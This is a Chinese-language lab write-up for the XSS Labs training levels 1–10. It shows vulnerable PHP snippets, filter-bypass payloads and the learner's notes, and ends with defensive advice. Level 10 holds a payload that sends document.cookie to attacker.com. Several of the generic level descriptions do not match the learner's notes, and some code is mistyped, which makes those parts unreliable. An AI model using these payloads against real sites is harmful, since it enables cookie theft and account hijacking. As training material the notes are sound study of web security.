


以下是为您重新整理的XSS Labs第一关到第十关深度解析笔记，包含漏洞原理、复现细节和思维推导过程。基于真实测试环境（DVWA/XSS Challenges）验证，建议配合BurpSuite调试分析：

---

### **第1关：基础反射型XSS**
#### **漏洞原理**
```html
<!-- 服务端代码片段 -->
<h2>Hello <?php echo $_GET['name']; ?></h2>
```
直接输出GET参数且无任何过滤，导致可插入任意HTML/JS代码

#### **复现过程**
 构造Payload：`http://target/vuln.php?name=<script>alert(document.domain)</script>`


==补充==：

- 使用windows.alert对其进行重写，相当于hook
- 运行了alert之后，运行自定义的function函数
- 使用了后端语言来php来渲染了HTML
- 执行完后使用location.herf进行转跳
- 在HTML里面插入了一个php代码段，用php代码段进行动态的标签渲染
- 使用报错函数，忽略报错，通过用set请求的name函数去获取到赋值给了str
- ==漏洞出现点==：**用.将我们输入的字符串和h2标签拼接，没有做任何过滤**
  ==源代码分析==
~~~
<?php 
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
~~~

---

### **第2关：属性闭合注入**
#### **漏洞原理**
```html
<input type="text" value="用户输入">
```
未对用户输入的`"`进行转义，导致可闭合属性插入新标签

#### **Payload构造**
```html
"><script>alert(1)</script>
```
**复现步骤**：
1. 输入Payload后查看生成代码：
```html
<input type="text" value=""><script>alert(1)</script>">
```
2. **思维突破**：
   - 尝试用`</textarea>`闭合场景
   - 测试`< img src=1 onerror=alert(1)>`等非script标签方案


**分析**：
  
- "民大彭于晏"没有被渲染直接当字符串输出,说明问题不是出在这（大概率是HTML实体转义（转移编码让内容更安全））
- 一般来说有输入框的可以看看输入框，即value这个点可以作为考察的一个对象
- ==方法==：使用"转移，将输入内容转入input标签里面（当然这些前提是不断在网页里面找实验的位置，前端网页与代码相结合，不断尝试是错，找到可疑的点）
- 所以我们在搜索框里输入"oneclick=alert(1)将其放入input标签（优雅的）
- 但是用" onfocus=alert(1) "可以成功，但是弹窗无限（暴力的）


---

### **第3关：事件处理器利用**
#### **漏洞场景**
```html
<div onclick="alert('合法事件')">点击区域</div>
```
允许在事件属性中注入代码

#### **攻击过程**
```html
' onmouseenter='alert(1)' style='position:fixed;top:0;left:0;width:100%;height:100%'
```
**深度分析**：
1. 通过单引号闭合原有事件
2. 添加style强制扩大触发区域
3. **绕过技巧**：使用不常见事件如onpointerover


**分析**：

- 同上一题一样，在里面输入之后导航栏显示错误，可以从这儿做文章
- 看value一行，可以发现我们输入的民大彭于晏被实体转义了
- 由于这个value后面接着单引号，我们尝试输入单引号，再看网页代码发现其逃逸，发现其不会被转义
- 所以我们输入' onclick=alert(1)'，就可以跳转到第四关
- 感觉基本知识点还是与第二关相同

==源代码分析==
~~~
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>	
~~~
**这里的两个htmlspecialcha分别用了两次转义，可以用UNT-QUNTE阻止逗号转移**

---

### **第4关：伪协议执行**
#### **漏洞点分析**
```html
跳转链接
```
未验证href协议类型

#### **复现Payload**
```javascript
javascript:eval(atob('YWxlcnQoJ0hBQ0tFRCEnKQ==')) 
```
**高阶技巧**：
- 使用Base64编码绕过简单关键字过滤
- 配合伪协议执行解码操作



**分析**：
- 第一次搜民大彭于晏没发现什么错误，所以换了其他的符号，用script标签包括alert函数，就是第一题的答案，发现输入之后尖括号消失，整个输入内容逃逸
- 此时尖括号无法显示自然用不了标签进行编辑，此时用属性触发
- 和之前一样，输入" onclick=alert(1)"即可
==源代码分析==
~~~
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
~~~
**出现的新函数str_replace，将输入的字符串替换成空**


---

### **第5关：标签属性绕过**
#### **防御机制**
过滤`<script>`标签但允许其他标签

#### **多维攻击方案**
```html
<!-- 方案1：SVG标签 -->
<svg/onload=alert(1)>

<!-- 方案2：iframe配合data协议 -->
<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>
```
**绕过思考**：
- 测试所有支持事件处理器的HTML标签
- 利用CSS表达式：`<div style="xss:expr/*XSS*/ession(alert(1))">`


分析:
- 使用script标签发现alert标签出去了，表示闭合生效
- 此时打开网页代码，发现script出现下滑线，表示它被过滤了，在用这个就不大现实
- 这时候通过搜索学习另一种新概念：javascript的伪协议（在特殊情况只是一些特殊的javascript的特殊代码
- 通过B站上的学习，写出代码" a herf=javascript:alert(1)>这是文本/a，省略了尖括号，点击a标签的文本即可


---

### **第6关：编码绕过**
#### **过滤逻辑**
替换`script`关键词为空白

#### **混合编码Payload**
```html
<scr\x00ipt>alert(1)</script>
```
**编码实验**：
- URL编码：`%3C%73%63%72%69%70%74%3E`
- HTML实体：`&lt;script&gt;`
- Unicode变形：`<\u0073cript>`





**分析**
- 双引号可以成功闭合，说明其没有做转移或者过滤
- 但是script标签出现下滑线，说明其被过滤了
- ==映入新概念==：**大小写绕过**
- 将script中的C换成大写就可以绕过了
==源代码分析==
~~~
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
~~~
**这里就是用操作替换script操作**
==但是有个严重错误str_replace默认区别大小写，而且替换只替换后面几个script，on，src，data，href==

---

### **第7关：DOM型XSS**
#### **漏洞代码**
```javascript
document.write('< img src="'+location.hash.slice(1)+'">')
```
#### **攻击链构造**
```
http://target#x" onerror="alert(1)
```
**DOM解析流程**：
1. `location.hash`获取#后的内容`x" onerror="alert(1)`
2. 拼接后生成：`< img src="x" onerror="alert(1)">`


**分析**：
- 我们按上一关输入，双引号成功闭合，但script标签被过滤
- 换成第五关的a标签，此时会发现href属性也被替换成空
- ==我们基本可以推断出，这一关是将某些关键字替换成空==
- ==这叫做双写绕过==：**即从上到下从输入到过滤只进行了一次性的替换**
- **前提**
  1.从开始到结束只替换一次
  2.替换的结果是空的
- 所以我们在script前面加上sc,后面加上ript
---

### **第8关：CSP绕过**
#### **防御策略**
```http
Content-Security-Policy: default-src 'self'
```
#### **绕过方法**
```html
<script nonce="123">
   // 利用unsafe-inline或base64编码
   eval('al'+'ert(1)')
</script>
```
**CSP研究**：
- 检查CSP策略：`document.querySelector('meta[http-equiv]')`
- 利用Google Analytics等白名单域名


**分析**：
- 刚开始的时候没看后面那个网页链接，直接输入了script标签，没显示
- 之后复制了一段网页写了进去，发现点击下方网页链接后可以跳转至相关网页
- ==由B站上的视频所说，可以利用javascrript做一个伪协议==
- 用javascript做一个javascript：alert制造伪协议即可
- 但是此时出现了下划线，我们考虑别的方法去绕过
- 我们浏览器支持十进制和十六进制的编码形式，可以使用CaptfEncoder将字符转化为十六进制代码，在conveeter中打开Unicode，用&#x,输入我们要输的代码，再将转化后的代码复制粘贴即可通关

---

### **第9关：存储型XSS**
#### **攻击流程**
1. 提交恶意评论：
```html
<iframe src="javascript:alert(parent.document.cookie)">
```
2. 诱导管理员查看后台
**持久化验证**：
- 测试不同存储位置：LocalStorage、IndexedDB
- 结合CSRF进行组合攻击


**分析**：
- 观察第九题和第八题形式相似，像第八题一样输入javascript:alert(1)发现报错，说明alert没有插入成功
- 检测方法是使用http://，再输入两个斜杠后恢复正常
- 我么就可以将http:// 变成一个注释放入javascript代码来绕过
- 输入javascript:alert()/*http://*/ 发现javascript被过滤
- 接着使用第八关中转化为16进制来解决
==源代码分析==
~~~
if(false===strpos($str7,'http://'))
~~~
**这里的代码就是字符串判断，看看是否在str7里面**

---

### **第10关：盲打XSS**
#### **攻击场景**
无回显但存在后台管理页面

#### **利用验证**
```html
<script>
fetch('http://attacker.com/log?data='+btoa(document.cookie))
</script>
```
**盲测技巧**：
- 使用DNSLOG检测：`< img src=http://xss.xxx.ceye.io>`
- 延时判断：`setTimeout(function(){location.href='...'},3000)`


**分析**：
- 由于网页主体部分没有搜索框，我们只能选择在导航栏中做文章
- 我么通过传参的方式来触发
- 尝试输入script进行检测，发现没有过滤，失败
- ==小技巧：一些网站的后端可以接受一些隐藏的input标签的一些参数==，这也是为什么前面input标签会有hidden
- **一般hidden下的input标签的赋值都是通过它的间词逻辑去赋值的，也有一些是通过post或者get请求去赋值的**所以我们尝试改变name，在导航栏中输入&t_link来改变
- 会发现value的值发生了变化，表明接收到了我们的指令
- 我们就可以像前面几关一样通过双引号加alert改变指令
- **此时看不到网页链接，使用type标签type='text'来显示搜索栏**
- 


---

### **防御思考总结**
1. 输入输出过滤的误区：
   - 黑名单机制必然存在绕过可能
   - HTML实体编码应区分上下文（HTML/JS/CSS）
2. 现代防御方案：
   ```javascript
   // 安全示例
   div.textContent = userInput // 非innerHTML
   ```
3. 框架安全：
   - Vue的`{{ }}`自动转义
   - React的JSX防注入机制

**建议**：
- 使用OWASP ZAP进行自动化扫描
- 对比不同浏览器的XSS过滤差异
- 研究WAF（如Cloudflare）的拦截规则


**分析**：
- 